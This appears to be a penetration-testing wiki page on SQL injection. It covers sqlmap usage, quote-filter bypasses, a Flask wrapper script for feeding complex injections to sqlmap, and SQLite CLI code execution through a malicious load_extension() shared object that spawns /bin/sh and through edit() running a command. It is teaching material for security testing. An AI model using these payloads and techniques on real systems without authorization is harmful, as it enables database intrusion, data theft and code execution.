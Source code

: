 ```yaml
---
description: >-
  An infamous and simple attack where code is injected where data should be,
  rewriting the SQL Query
---
```


# SQL Injection

## SQLMap

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap" %}

You can run a raw request through `sqlmap` with cookies and POST to find any injection:

```shell-session
$ sqlmap -r r.txt --batch
```

* `--level=5` tests more inputs, like HTTP headers
* `--risk=3` tests more injection payloads

### XSS/SQLi through SQL Injection

{% embed url="https://jorianwoltjer.com/blog/post/hacking/intigriti-xss-challenge/intigriti-july-xss-challenge-0722" %}
Writeup showing XSS through a Second-Order injection (3-in-one)
{% endembed %}

Use `UNION SELECT` statements to alter the returned content on the site, with an XSS payload for example.

{% hint style="info" %}
Also try 'Second-Order' injection, by doing another injection inside of your `UNION` content if not all values can be altered (see the writeup above)
{% endhint %}

### Filter Bypass

Some scenarios where you can bypass character limits using functions or special syntax. \
**`+`** here means supported in more than just the mentioned DB backend.

* Quotes (`'` & `"`) like `"j0r1an"`:&#x20;
  * Use `0x6a307231616e` in **MySQL**: [CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Hex\('None',0\)Find\_/\_Replace\(%7B'option':'Regex','string':'.\*'%7D,'0x$%26',false,false,false,false\)\&input=ajByMWFu)
  * Use [`char(106,48,114,49,97,110)`](https://www.sqlite.org/lang\_corefunc.html#char) in **SQLite+**: [CyberChef](https://gchq.github.io/CyberChef/#recipe=To\_Decimal\('Comma',false\)Find\_/\_Replace\(%7B'option':'Regex','string':'.\*'%7D,'char\($%26\)',false,false,true,true\)\&input=ajByMWFu)

### Custom Wrapper (complex injections)

While most inputs are as simple as a query or body parameter, not all flows are like this. Interactions sometimes require special headers or formatting of the input, or the result of your action might only be visible on a different page. In these scenarios, SQLMap can fall short in its customization because it simply does not support everything.&#x20;

One clever solution to this is from a case where the hacker had to automate a blind SQL injection over a websocket. These are normally not possible in SQLMap, so you might think you need to create a custom script to extract all data slowly. While this is possible, an easier alternative is to **create a wrapper script** that makes it easy for SQLMap.&#x20;

{% embed url="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html" %}
Writing a custom wrapper server for SQLMap to make exploitation easier
{% endembed %}

By creating a simple web server with a single query parameter as the payload, you can implement the full interaction in Python and then send back the result to SQLMap. You may do this for any kind of complex interaction with a server like this:

<pre class="language-python" data-title="proxy.py"><code class="lang-python">from flask import Flask, request
import requests

app = Flask(__name__)

def interact(payload):
    print(f"Payload: {payload}")
    # Example complex interaction
<strong>    requests.post("https://example.com/save", json={"input": payload})
</strong><strong>    r = requests.get("https://example.com/get_result")
</strong><strong>    return r.text
</strong>
@app.route('/')
def index():
    payload = request.args.get('id')
    return interact(payload)

if __name__ == '__main__':
    app.run(debug=False)
</code></pre>

Then run your server locally, and target _it_ instead of the regular target to proxy the traffic with your custom format and logic:

```bash
sqlmap -u 'http://localhost:5000/?id=1'
```

{% hint style="warning" %}
**Warning**: Performing this technique multiple times may make SQLMap cache results from a previous run because the same localhost URL is used. To ensure it starts completely fresh, clear the session every time using the `--flush-session` argument.
{% endhint %}

## SQLite

Tricks specific to the SQLite database backend.

### RCE through CLI

While looking through the documentation, you might notice functions that seem to have the ability to run arbitrary code on the system. The catch is that these methods are only possible using the `sqlite3` CLI tool by default, only with some very specific configuration will they be available through a normal library that uses the safer C-API behind the scenes.&#x20;

#### [`load_extension()`](https://www.sqlite.org/lang\_corefunc.html#load\_extension)

SQLite uses the C-API for all the heavy work, and the CLI as well as libraries are just wrappers over this. The `load_extension()` function is special as it can only be called after calling the `enable_load_extension()` function from the C-API, which is not available in SQL syntax. Fortunately, the **CLI enables this automatically** which means that if we are able to inject code into such a query, we can load extensions.&#x20;

These extensions are simply compiled C code in the form of `.so` files, with an init function:

<pre class="language-c" data-title="extension.c"><code class="lang-c">#include &#x3C;sqlite3ext.h>
SQLITE_EXTENSION_INIT1

#include &#x3C;stdlib.h>
#include &#x3C;unistd.h>

int sqlite3_extension_init(sqlite3 *db, char **pzErrMsg, const sqlite3_api_routines *pApi) {
  SQLITE_EXTENSION_INIT2(pApi);

<strong>  execve("/bin/sh", NULL, NULL);  // Spawn an interactive shell
</strong>
  return SQLITE_OK;
}
</code></pre>

```shell-session
$ gcc -s -g -fPIC -shared extension.c -o extension.so
```

Then from inside a CLI query, we can call the function with a path to the compiled extension:

<pre class="language-sql"><code class="lang-sql"><strong>sqlite> select load_extension('./extension');
</strong>$ id
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

#### [`edit()`](https://www.sqlite.org/cli.html#the\_edit\_sql\_function)

The CLI also includes an extra special function used for editing data interactively, which allows its 2nd argument to decide what command to run! It is very straightforward to exploit:

<pre class="language-sql"><code class="lang-sql"><strong>sqlite> select edit(1,'id;');
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
sh: 1: temp9385525e2ea5301f: not found
Error: EDITOR returned non-zero
</code></pre>
